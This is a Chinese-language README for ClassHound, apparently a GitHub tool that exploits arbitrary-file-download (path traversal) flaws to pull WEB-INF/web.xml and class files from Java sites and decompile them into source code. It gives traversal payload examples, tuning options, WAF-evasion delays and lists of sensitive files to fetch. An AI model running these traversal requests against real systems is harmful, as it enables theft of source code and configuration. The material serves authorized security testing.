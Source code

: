 # ClassHound
**利用任意文件下载漏洞自动循环下载并反编译class文件获得网站源码**



### 注意事项

```
1. 程序兼容 python 2.7+ 和 3.4+, 运行前先安装 requirements.txt 中的python模块, 并安装配置好 java 环境变量
2. 使用过程中的 bug 和优化建议欢迎提 issue
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```



### 下载安装

```bash
git clone --depth=1 --branch=master https://www.github.com/LandGrey/ClassHound.git
cd ClassHound/
sudo pip install requirements.txt
sudo chmod +x classhound.py
python classhound.py -h
```



### 使用效果

![GIF.gif](https://raw.githubusercontent.com/LandGrey/ClassHound/master/resource/GIF.gif)



### 使用

#### *0x00:* -u/--url

指定可 **正常下载文件** 的链接, 并默认使用 `#` 字符标记任意文件下载漏洞的文件位置

例如可正常下载 **1.png** 文件的链接如下：`http://127.0.0.1/download.jsp?path=images/1.png`

任意文件下载漏洞载荷位置正好在 **1.png**，可以使用命令：

`python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#"`

或者使用链接`http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml` 可正常下载文件时,

也可使用命令: `python classhound.py -u "http://127.0.0.1/download.jsp?path=#../../../WEB-INF/web.xml#"`



#### *0x01:* -k/--keyword

指定**下载失败时**页面会出现的关键字，可用来辅助程序判断是否下载成功，如 `-k "404 not found"`

不清楚或不固定时，可以不指定



#### *0x02:* -p/--post

使用 POST 请求下载文件

例如 `python classhound.py -u "http://127.0.0.1/download.jsp" --post "path=images/#1.png#"`



#### *0x03:* -tc/--travel-char (推荐使用)

指定**文件遍历字符**，默认是 `../`，当对方有WAF或者程序没有自动探测出来特殊的遍历字符时，可以单独指定。



#### *0x04:* -cc/--char-count  (推荐使用)

指定下载 `WEB-INF/web.xml` 文件时的**遍历字符数量**，程序没有自动探测出来遍历字符数量时，可以单独指定

例如，可使用 `http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml` 下载 `WEB-INF/web.xml`文件时，此时的遍历字符数量为 `3` 个

可使用命令：

`python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -tc "../" -cc 3`



#### *0x05:* -bp/--base-path

指定 `WEB-INF/web.xml` 的多级父目录



例如当因目录原因，直接跳目录用 `../../../WEB-INF/web.xml` 不能下载 `WEB-INF/web.xml` 文件，需要用 `../../../../../../../opt/tomcat/webapps/cms/WEB-INF/web.xml` 才可以下载成功时：

可以指定需要拼接的前缀路径为 `opt/tomcat/webapps/cms/`，同时用 `-cc 7` 显示指定需要 `7` 个遍历字符。



#### 其他参数

```markdown
## -s
设置两次HTTP请求间的 sleep time，暂停N秒，防止请求过于频繁被 waf 拦截

## -f
如果想顺带下载些其他已知文件, 可将服务器文件的相对路径一行一个写入文件中, 然后用 -f 参数指定文件
相对路径的文件下载可能需要不一样数量的遍历字符, 可以同时启用 -a/--auto 参数，程序会尝试不同数量的遍历字符
例如创建文件 download.txt，内容如下:
/etc/issue
install/index.jsp
application.properties
ROOT/META-INF/MANIFEST.MF
WEB-INF/classes/me/landgrey/config/config.class

## --auto
自动切换遍历字符数量，常和 -f 参数一起使用

## -dc
设置标记漏洞的分隔符，默认为 #

## -mc
设置自动探测时尝试的最大遍历字符数量, 默认 8

## -hh
设置请求时的额外 HTTP header

## -hp
设置 HTTP/HTTPS 代理
```



### 程序修改

极少数情况下，下载的文件可能会被二次处理，比如`在文件头部或尾部添加额外字符`、`文件被编码`等。

此时，可以修改程序中的 `save_file` 函数，在文件在保存到本地前，对文件做额外处理，还原成正常的 `xml` 或 `class` 文件。



### 依赖开源程序

反编译工具 [https://github.com/leibnitz27/cfr](https://github.com/leibnitz27/cfr)
